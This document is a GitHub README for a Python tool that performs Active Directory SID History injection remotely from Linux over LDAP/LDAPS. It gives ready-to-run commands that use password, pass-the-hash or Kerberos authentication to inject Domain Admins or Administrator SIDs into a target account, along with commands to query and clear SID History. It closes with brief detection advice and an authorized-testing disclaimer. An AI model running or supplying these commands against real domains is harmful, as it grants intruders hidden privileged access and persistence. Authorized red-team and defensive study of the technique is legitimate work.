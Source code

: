 # SID History Attack Tool

Remote SID History manipulation for Active Directory from Linux hosts via LDAP/LDAPS.

## Why This Tool?

Traditional SID History attacks require local access to Windows DCs (Mimikatz, DSInternals). This tool performs the attack **remotely from Linux** using LDAP protocols.

**Theory**: SID History allows objects to retain SIDs during domain migrations. Attackers abuse this by injecting privileged SIDs into controlled users, granting elevated rights without group membership.

## Features

**Attack Capabilities**
- Inject privileged SIDs into user accounts
- Query/lookup SIDs and SID History
- Remove or clear SID History entries
- Full LDAP/LDAPS support

**Authentication Methods**
- NTLM with password
- Pass-the-Hash (PTH)
- Kerberos (with tickets/ccache)
- Pass-the-Certificate (PTC)

**Code Quality**
- Modular architecture (easy debugging)
- Type hints & comprehensive error handling
- Clean separation: auth, LDAP ops, SID utils, attack orchestration

## Installation

```bash
git clone https://github.com/felixbillieres/SIDHistory.git
cd SIDHistory
python3 -m venv venv && source venv/bin/activate
pip install -r requirements.txt
```

## Quick Start

```bash
# NTLM Authentication (password)
python3 sidhistory.py -d DOMAIN.COM -u admin -p Pass123 -dc 192.168.1.10 \
    --target-user victim --source-user "Domain Admins"

# Pass-the-Hash
python3 sidhistory.py -d DOMAIN.COM -u admin --ntlm-hash <NT_HASH> -dc 192.168.1.10 \
    --target-user victim --source-user Administrator

# Kerberos (with existing ticket)
python3 sidhistory.py -d DOMAIN.COM -dc 192.168.1.10 --kerberos \
    --dc-hostname dc01.domain.com --target-user victim --sid S-1-5-21-xxx-512

# Query SID History
python3 sidhistory.py -d DOMAIN.COM -u admin -p Pass123 -dc 192.168.1.10 \
    --query-user victim

# Clear SID History
python3 sidhistory.py -d DOMAIN.COM -u admin -p Pass123 -dc 192.168.1.10 \
    --target-user victim --clear
```

## Key Options

**Auth**: `-u/--username`, `-p/--password`, `--ntlm-hash`, `--kerberos`, `--certificate`  
**Actions**: `--target-user`, `--source-user`, `--sid`, `--query-user`, `--remove`, `--clear`  
**Connection**: `-d/--domain`, `-dc/--dc-ip`, `--use-ssl`, `--dc-hostname`

Run `python3 sidhistory.py -h` for full usage.

## Requirements

- **Privileges**: Domain Admin or write access to `sIDHistory` attribute
- **Dependencies**: Python 3.7+, ldap3 library
- **Network**: Direct access to DC (port 389/LDAP or 636/LDAPS)

## Detection & Defense

**Attackers**: Operations are logged in AD audit logs and may trigger alerts.  
**Defenders**: Monitor `sIDHistory` changes, restrict permissions, use ATA/MDI, audit privileged accounts.

## References

- [MITRE ATT&CK T1134.005](https://attack.mitre.org/techniques/T1134/005/)
- [The Hacker Recipes: SID History](https://www.thehacker.recipes/ad/persistence/sid-history)
- [Microsoft: sIDHistory Attribute](https://learn.microsoft.com/en-us/windows/win32/adschema/a-sidhistory)

## Author

**Félix Billières (Elliot Belt)**

## Legal

**For authorized security testing only.** This tool is provided as-is without warranty. Unauthorized access to computer systems is illegal. Use at your own risk on systems you have explicit permission to test.

